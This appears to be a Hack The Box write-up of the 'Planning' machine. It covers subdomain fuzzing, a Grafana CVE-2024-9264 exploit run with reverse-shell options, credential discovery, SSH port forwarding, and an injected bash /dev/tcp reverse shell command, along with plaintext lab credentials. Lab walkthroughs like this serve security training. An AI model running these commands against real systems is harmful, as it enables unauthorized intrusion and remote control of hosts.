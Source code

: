 # 🧠 Hack The Box – Planning (Easy)

## 📌 Machine Info
- **Name:** Planning  
- **Difficulty:** Easy  
- **OS:** Linux  
- **IP Address:** 10.10.11.68  
- **Author:** Vishnu S  
- **Completed on:** July 6, 2025

---

## 🔍 Summary

The Planning machine involves:
- Virtual host enumeration  
- Exploiting Grafana (CVE-2024-9264)  
- Docker container escape  
- Privilege escalation via SSH port forwarding and command injection  

![Planning Page](screenshots/planning.png)

---

## 🛠 Tools Used
- `nmap` – Port scanning  
- `ffuf` – Subdomain enumeration  
- `python3` – Exploit execution  
- `netcat` – Reverse shell listener  
- `ssh` – Remote login & port forwarding  
- `linPEAS` – Privilege escalation enumeration  

---

## 🧾 Walkthrough

### 1️⃣ Initial Enumeration

```bash
nmap 10.10.11.68
````

![Nmap Output](screenshots/nmap-scan.png)

---

### 2️⃣ Virtual Host Setup

Modified `/etc/hosts`:

```
10.10.11.68 planning.htb
```

![Host Added](screenshots/added-host.png)

---

### 3️⃣ Subdomain Discovery

Used FFUF to find subdomains:

```bash
ffuf -u http://planning.htb -H "Host:FUZZ.planning.htb" \
-w /usr/share/seclists/Discovery/DNS/namelist.txt -fs 178 -t 100
```

![FFUF Scan](screenshots/fuff-scan.png)
![Host Added Again](screenshots/added-host1.png)

Discovered: `grafana.planning.htb`

---

### 4️⃣ Grafana Login

Visited: `http://grafana.planning.htb`

Used credentials:

```
Username: admin
Password: 0D5oT70Fq13EvB5r
```

![Login Page](screenshots/grafana-login.png)
![Version Info](screenshots/grafana-version.png)

---

### 5️⃣ Exploiting Grafana (CVE-2024-9264)

Started a reverse shell listener:

```bash
nc -lvnp 9001
```

![Listener](screenshots/listener.png)

Ran exploit:

```bash
python3 poc.py --url http://grafana.planning.htb \
--username admin \
--password 0D5oT70Fq13EvB5r \
--reverse-ip 10.10.14.96 \
--reverse-port 9001
```

![Exploit Script](screenshots/python-exploit.png)
![Reverse Shell Access](screenshots/exploited.png)

✅ Reverse shell obtained!

---

### 6️⃣ Docker Escape

Checked environment variables:

```bash
env
```

Found:

```
Username: enzo
Password: RioTecRANDEntANT!
```

![Found Creds](screenshots/found-username-password.png)

SSH login:

```bash
ssh enzo@10.10.11.68
```

![SSH Access](screenshots/ssh.png)

Captured user flag:

```bash
cat /home/enzo/user.txt
```

![User Flag](screenshots/userflag.png)

---

### 7️⃣ Privilege Escalation

Ran linPEAS and discovered crontab entry:

```bash
cat /opt/crontabs/crontab.db
```

Found:

```
Username: root
Password: P4ssw0rdS0pRi0T3c
```

![LinPEAS Output](screenshots/linpeas-crontab.png)
![Root Credentials](screenshots/found-credentials.png)

---

### 8️⃣ Internal Service & Reverse Shell to Root

Discovered local port 8000:

![Local Port](screenshots/port-locally.png)

Port forwarding with SSH:

```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```

![Port Forwarding](screenshots/port-forwarding.png)

Visited: `http://localhost:8000`

![Visited 8000](screenshots/visited8000.png)

Injected reverse shell payload:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.96/8888 <&1'
```

![Injection](screenshots/injected.png)

Set up listener:

```bash
nc -lvnp 8888
```

![Listener Ready](screenshots/setup-listener.png)

Got root shell! 🎉

![Root Shell](screenshots/gained-rootshell.png)

---

## 🏁 Flags Captured

```bash
cat /home/enzo/user.txt
cat /root/root.txt
```

![User Flag](screenshots/user-flag.png)
![Root Flag](screenshots/root-flagl.png)

---

## ✅ Conclusion

The Planning machine demonstrated a solid exploitation path:

* Default credentials in Grafana
* Environment variable leaks in Docker
* SSH access and internal port forwarding
* Reverse shell injection via internal admin panel

---

## 🔗 References

* [CVE-2024-9264 – Grafana RCE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-9264)
* [Exploit PoC by z3k0sec](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)
* [HackTricks Book](https://book.hacktricks.xyz/)
* [Medium Write-up](https://medium.com/@ypopova3/planning-hackthebox-fd3d5fcb8fc7)

